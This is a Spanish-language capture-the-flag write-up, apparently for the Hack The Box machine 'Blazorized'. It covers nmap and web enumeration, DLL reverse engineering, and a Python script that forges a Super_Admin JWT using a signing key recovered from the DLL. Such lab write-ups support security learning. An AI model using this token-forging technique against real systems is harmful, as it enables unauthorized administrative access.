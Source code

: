 #ActiveDirectory #medium #windows 
### Ping

```python
ping -c 1 10.10.11.22
PING 10.10.11.22 (10.10.11.22) 56(84) bytes of data.
64 bytes from 10.10.11.22: icmp_seq=1 ttl=127 time=366 ms

--- 10.10.11.22 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 365.816/365.816/365.816/0.000 ms
```

### TTL = 127 - Windows

### nmap

```python
Not shown: 65514 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: Did not follow redirect to http://blazorized.htb
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2022 16.00.1115.00; RC0+
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-07-05T02:37:01
|_Not valid after:  2054-07-05T02:37:01
|_ssl-date: 2024-07-05T02:41:11+00:00; -1s from scanner time.
| ms-sql-ntlm-info: 
|   10.10.11.22\BLAZORIZED: 
|     Target_Name: BLAZORIZED
|     NetBIOS_Domain_Name: BLAZORIZED
|     NetBIOS_Computer_Name: DC1
|     DNS_Domain_Name: blazorized.htb
|     DNS_Computer_Name: DC1.blazorized.htb
|     DNS_Tree_Name: blazorized.htb
|_    Product_Version: 10.0.17763
| ms-sql-info: 
|   10.10.11.22\BLAZORIZED: 
|     Instance name: BLAZORIZED
|     Version: 
|       name: Microsoft SQL Server 2022 RC0+
|       number: 16.00.1115.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RC0
|       Post-SP patches applied: true
|     TCP port: 1433
|_    Clustered: false
3268/tcp  open  tcpwrapped
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49776/tcp open  ms-sql-s      Microsoft SQL Server 2022 16.00.1115.00; RC0+
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-07-05T02:37:01
|_Not valid after:  2054-07-05T02:37:01
|_ssl-date: 2024-07-05T02:41:11+00:00; -1s from scanner time.
| ms-sql-info: 
|   10.10.11.22:49776: 
|     Version: 
|       name: Microsoft SQL Server 2022 RC0+
|       number: 16.00.1115.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RC0
|       Post-SP patches applied: true
|_    TCP port: 49776
| ms-sql-ntlm-info: 
|   10.10.11.22:49776: 
|     Target_Name: BLAZORIZED
|     NetBIOS_Domain_Name: BLAZORIZED
|     NetBIOS_Computer_Name: DC1
|     DNS_Domain_Name: blazorized.htb
|     DNS_Computer_Name: DC1.blazorized.htb
|     DNS_Tree_Name: blazorized.htb
|_    Product_Version: 10.0.17763
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-07-05T02:41:03
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: -1s, deviation: 0s, median: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 85.66 seconds
```

### Enumeración del puerto 80 (http)
en la enumeración web podemos ver blazorized
![[Pasted image 20240704224625.png]]

`api`
al intentar enumerar la web en busca de subdominios podemos ver que al hacer clic en `Check for Updates` podemos ver que esta haciendo referencia a una `api` determinada
![[Pasted image 20240704225000.png]]

`/etc/hosts`
agregamos estas rutas a nuestro archivo `hosts` para poder enumerarlas
![[Pasted image 20240704225228.png]]

### XSS en blazorized
otra cosa que conseguí fue una `CVE` [XXS](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/xss-in-markdown) he intentado esto pero no he podido conseguir mucha cosa. esperaba obtener una cookie o algo pero por el momento no tenemos nada
![[Pasted image 20240704225640.png]]

### Fuzzing con wfuzz
conseguí el subdominio de `admin` así que lo vamos a agregar el archivo `hosts` para seguir enumerando
![[Pasted image 20240704230120.png]]

### Enumeración del puerto 80 (http)
después de intentar un montón de cosas aquí no tenemos aun un vector claro
![[Pasted image 20240704230403.png]]

`Archivos DLL interesantes del marco Blazor`
Una cosa interesante de este sitio web fue la gran cantidad de archivos DLL. Después de un tiempo probando sttuf, decidí descargar algunas DLL para probar ingeniería inversa. 
![[Pasted image 20240704231037.png]]

`Descargué Blazorized.Helpers.dll desde` [aqui](http://blazorized.htb/_framework/Blazorized.Helpers.dll) 
![[Pasted image 20240704234037.png]]

### dnSpy
para este paso vamos a necesitar una maquina Windows ya que la herramienta dnSpy es para Windows. sin embargo existen maneras de usarla en Kali. puedes investigar esta opción
![[Pasted image 20240705003628.png]]

`Token`
con esta información podremos crear nuestro propio token para acceder como Administrador en blazorized. Puedes usar jwt.io, o en mi caso hice un script en Python:
![[Pasted image 20240705003707.png]]
![[Pasted image 20240705003826.png]]

### script
con este script usando la sintax que hemos obtenido del análisis de los DLL podemos generar un nuevo token
```python
import jwt
import datetime
import pytz

# Created by 3ky, enjoy :)
jwtSymmetricSecurityKey = "8697800004ee25fc33436978ab6e2ed6ee1a97da699a53a53d96cc4d08519e185d14727ca18728bf1efcde454eea6f65b8d"
issuer = "http://api.blazorized.htb"
apiAudience = "http://api.blazorized.htb"
adminDashboardAudience = "http://admin.blazorized.htb"
superAdminEmailClaimValue = "superadmin@blazorized.htb"
superAdminRoleClaimValue = "Super_Admin"

def get_signing_credentials() -> str:
    try:
        return jwtSymmetricSecurityKey
    except Exception as e:
        raise e

def generate_super_admin_jwt(expiration_duration_in_seconds: int = 60) -> str:
    try:
        claims = {
            "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/emailaddress": superAdminEmailClaimValue,
            "http://schemas.microsoft.com/ws/2008/06/identity/claims/role": superAdminRoleClaimValue,
            "iss": issuer,
            "aud": adminDashboardAudience,
            "exp": datetime.datetime.now(pytz.utc) + datetime.timedelta(seconds=expiration_duration_in_seconds)
        }
        key = get_signing_credentials()
        jwt_token = jwt.encode(claims, key, algorithm="HS512")
        return jwt_token
    except Exception as e:
        raise e

if __name__ == "__main__":
    token = generate_super_admin_jwt()
    print(token)

```

`token`
### Vulnerabilidades

| CVE-XXXX-XXXXX | Nombre de la vulnerabilidad | Tipo | Nivel | Link |
| -------------- | --------------------------- | ---- | ----- | ---- |
|                |                             |      |       |      |
|                |                             |      |       |      |
|                |                             |      |       |      |
